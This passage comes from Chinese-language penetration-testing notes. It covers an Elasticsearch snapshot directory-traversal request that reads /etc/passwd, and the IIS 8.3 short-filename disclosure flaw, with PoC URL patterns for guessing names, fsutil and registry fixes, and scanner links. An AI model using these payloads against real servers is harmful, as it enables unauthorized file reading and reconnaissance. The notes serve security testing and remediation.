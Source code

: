     {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata"
        }
    }
    ```

    目录穿越读取任意文件

    `http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

    在错误信息中包含文件内容 (编码后) ,对其进行解码即可获得文件

---

## IIS

**IIS shortname**
- 简介

    windows 在创建一个新文件时,操作系统还会生成 8.3 格式的兼容 MS-DOS 的(短)文件名,以允许基于 MS-DOS 或16位 windows 的程序访问这些文件.

- 修复方案
    1. 升级 .net framework 至 4.0 版本或以上
    2. 修改 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem
    值 NtfsDisable8dot3NameCreation 为 1

- 文章
    - [IIS短文件名漏洞](http://www.lonelyor.org/lonelyorWiki/15446866501207.html)
    - [IIS短文件名泄露漏洞修复](https://segmentfault.com/a/1190000006225568)
    - [IIS短文件/文件夹漏洞(汇总整理) ](https://www.freebuf.com/articles/4908.html)

- POC | Payload | exp
    ```bash
    1. http://www.xxx.com/*~1*/.aspx
    2. http://www.xxx.com/l1j1e*~1*/.aspx
    # 若1返回404而2返回400,则可以判断目标站点存在漏洞.
    http://www.xxx.com/a*~1*/.aspx
    # 若存在将返回404,不存在则返回400.以此类推,不断向下猜解所有的6个字符.
    ```
    ```
    Windows Server 2008 R2
    查询是否开启短文件名功能:fsutil 8dot3name query
    关闭该功能:fsutil 8dot3name set 1

    Windows Server 2003
    关闭该功能:fsutil behavior set disable8dot3 1
    ```
    - [lijiejie/IIS_shortname_Scanner](https://github.com/lijiejie/IIS_shortname_Scanner)
    - [irsdl/IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)
